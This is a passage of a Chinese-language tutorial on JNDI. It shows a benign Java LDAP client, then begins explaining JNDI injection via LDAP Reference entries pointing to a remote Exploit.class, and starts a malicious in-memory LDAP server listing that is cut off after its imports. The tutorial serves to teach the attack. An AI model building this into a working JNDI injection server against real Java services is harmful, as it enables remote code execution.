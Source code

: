     ```java
    package com.example.demo.jndi;
    
    import javax.naming.Context;
    import javax.naming.NamingEnumeration;
    import javax.naming.NamingException;
    import javax.naming.directory.DirContext;
    import javax.naming.directory.InitialDirContext;
    import javax.naming.directory.SearchControls;
    import javax.naming.directory.SearchResult;
    import java.util.Hashtable;
    
    public class JNDIClient {
        public static void main(String[] args) throws NamingException {
            Hashtable<String, Object> env = new Hashtable<>();
            env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.ldap.LdapCtxFactory");
            env.put(Context.PROVIDER_URL, "ldap://localhost:7389/dc=example,dc=com");
    
            DirContext ctx = new InitialDirContext(env);
            SearchControls searchControls = new SearchControls();
            searchControls.setSearchScope(SearchControls.SUBTREE_SCOPE);
            searchControls.setCountLimit(10);
            NamingEnumeration<SearchResult> namingEnumeration = ctx.search("", "(uid=*)", new Object[]{}, searchControls);
            // 通过名称查找远程对象，假设远程服务器已经将一个远程对象绑定了
            ctx.lookup("ldap://localhost:7389/ou=employees,dc=example,dc=com");
            while (namingEnumeration.hasMore()){
                SearchResult sr = namingEnumeration.next();
                System.out.println("DN: " + sr.getName());
                System.out.println(sr.getAttributes().get("uid"));
            }
            ctx.close();
    
        }
    }
    ```
3. 运行，查看访问结果
    ```cmd
    DN: uid=xxxx,ou=employees
    uid: xxxx
    ```

## 什么是 JNDI 注入？

### JNDI Naming Reference

1. 在 LDAP 里面可以存储一个外部资源，叫做命名引用，对应 `Reference` 类。（比如： 远程 HTTP 服务的一个 `Exploit.class` 文件）
    ```java
    package com.example.demo.ldap;
    
    import com.unboundid.ldap.listener.InMemoryDirectoryServer;
    import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
    import com.unboundid.ldap.listener.InMemoryListenerConfig;
    import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
    import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
    import com.unboundid.ldap.sdk.Entry;
    import com.unboundid.ldap.sdk.LDAPException;
    import com.unboundid.ldap.sdk.LDAPResult;
    import com.unboundid.ldap.sdk.ResultCode;
    